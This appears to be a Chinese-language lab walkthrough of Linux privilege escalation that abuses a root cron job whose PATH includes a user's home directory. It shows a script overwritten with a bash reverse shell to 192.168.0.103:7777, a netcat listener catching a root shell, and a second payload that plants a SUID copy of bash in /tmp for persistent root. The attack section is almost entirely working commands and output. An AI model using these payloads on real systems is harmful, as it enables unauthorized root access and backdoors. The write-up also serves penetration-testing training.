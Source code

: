 ```bash
root@moonteam-virtual-machine:~# cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/moonteam:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root overwrite.sh

```

#### 操作复现

moonteam操作，重写 overwrite.sh 里添加 反弹 shell

```bash
moonteam@moonteam-virtual-machine:~$ vim overwrite.sh
moonteam@moonteam-virtual-machine:~$ chmod +x overwrite.sh 
moonteam@moonteam-virtual-machine:~$ cat overwrite.sh 
#!/bin/bash
bash -i >& /dev/tcp/192.168.0.103/7777 0>&1 
```

kali 监听

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 7777                                                                                                                                         1 ⨯
listening on [any] 7777 ...
connect to [192.168.0.103] from (UNKNOWN) [192.168.0.102] 53246
bash: 无法设定终端进程组(3639): 对设备不适当的 ioctl 操作
bash: 此 shell 中无任务控制
root@moonteam-virtual-machine:~# 
```



补充下，overwrite.sh 里还可以写入以下内容提权：

```
#!/bin/bash
cp /bin/bash /tmp/zf1yolo
chmod +xs /tmp/zf1yolo
```

moonteam 再执行 `/tmp/zf1yolo -p` 即可提权至 root
